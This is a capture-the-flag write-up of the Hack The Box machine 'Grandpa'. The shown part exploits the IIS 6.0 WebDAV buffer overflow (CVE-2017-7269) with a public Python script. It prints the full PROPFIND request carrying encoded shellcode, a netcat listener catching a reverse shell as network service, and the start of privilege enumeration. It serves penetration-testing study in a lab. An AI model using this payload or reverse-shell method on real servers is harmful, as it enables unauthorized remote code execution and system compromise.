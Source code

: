 ## Shell as network service
### IIS 6.0

I did some research and found that there is a `Buffer overflow` in the `ScStoragePathFromUrl` function in the `WebDAV` service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 which allows remote attackers to execute arbitrary code via a long header beginning with ``"If:``

I also found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) python script which was written in python2 but still works.

I will listen for incoming connections with `nc` on one terminal and run the script on the other.

```sh
┌─[✗]─[george@parrot]─[~/HTB/boxes/grandpa]
└──╼ $ python shell.py 10.10.10.14 80 10.10.16.7 9001
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

And on my `netcat` terminal we get a connection, sweet!

```sh
└──╼ $ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>

```
## Shell as nt authority\system
### Enumeration

Whenever I get shell on any box I always start by checking the privileges assigned to that user.

```sh
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```
